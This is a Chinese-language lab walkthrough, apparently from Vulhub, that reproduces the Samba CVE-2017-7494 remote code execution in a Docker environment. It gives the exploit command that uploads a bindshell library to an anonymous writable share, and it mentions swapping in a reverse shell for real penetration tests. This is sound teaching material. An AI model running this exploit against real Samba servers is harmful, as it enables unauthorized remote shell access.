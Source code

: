 # Samba 远程命令执行漏洞 CVE-2017-7494

## 漏洞描述

Samba允许连接一个远程的命名管道，并且在连接前会调用`is_known_pipename()`函数验证管道名称是否合法。在`is_known_pipename()`函数中，并没有检查管道名称中的特殊字符，加载了使用该名称的动态链接库。导致攻击者可以构造一个恶意的动态链接库文件，执行任意代码。

该漏洞要求的利用条件：

- 拥有共享文件写入权限，如：匿名可写等
- 需要知道共享目录的物理路径

参考：

- https://medium.com/@lucideus/sambacry-rce-exploit-lucideus-research-3a3e5bd9e17c
- https://github.com/opsxcq/exploit-CVE-2017-7494
- http://bobao.360.cn/learning/detail/3900.html

## 影响版本

```
Samba版本：4.6.3（该漏洞在4.6.4被修复）
```

## 环境搭建

Vulhub运行测试环境：

```
docker-compose up -d
```

## 漏洞复现

测试环境运行后，监听445端口，默认开启了一个共享“myshare”，共享的目录为`/home/share`，可读可写。

我们可以在Linux下用smbclient（安装：`apt install smbclient`）连接试试：

![image-20220228222106682](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202282221768.png)

成功连接。大家测试的时候如果连接不成功，有可能是国内运营商封了445端口，最好在本地或虚拟机测试，比如上图。

参考[#224](https://github.com/vulhub/vulhub/issues/224)，新版metasploit可能无法复现这个漏洞。我们使用[SambaCry RCE exploit for Samba 4.5.9](https://github.com/opsxcq/exploit-CVE-2017-7494)来复现。

配置SambaCry RCE exploit for Samba 4.5.9：

```
$ conda create -n py27 python=2.7
$ pip install -r requirements.txt
```

在目标服务器上执行`/home/share/libbindshell-samba.so`，其中myshare是分享名称（在vulhub中为`myshare`），而`/home/share`是对应的可写目录。`-u`和`-p`用来指定用户名、密码，当前环境是一个匿名smb，所以填写任意信息均可。因为libbindshell-samba.so是一个bindshell，监听地址是6699，所以我们通过`-P`指定这个端口。在实际渗透中，我们可以修改`libbindshell-samba.c`，写入任意其他代码，如反弹shell，避免使用bindshell。

```
python ./exploit.py -t your-ip -e libbindshell-samba.so -s myshare -r /home/share/libbindshell-samba.so -u guest -p guest -P 6699
```

成功执行命令：

![image-20220228223532911](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202282235034.png)
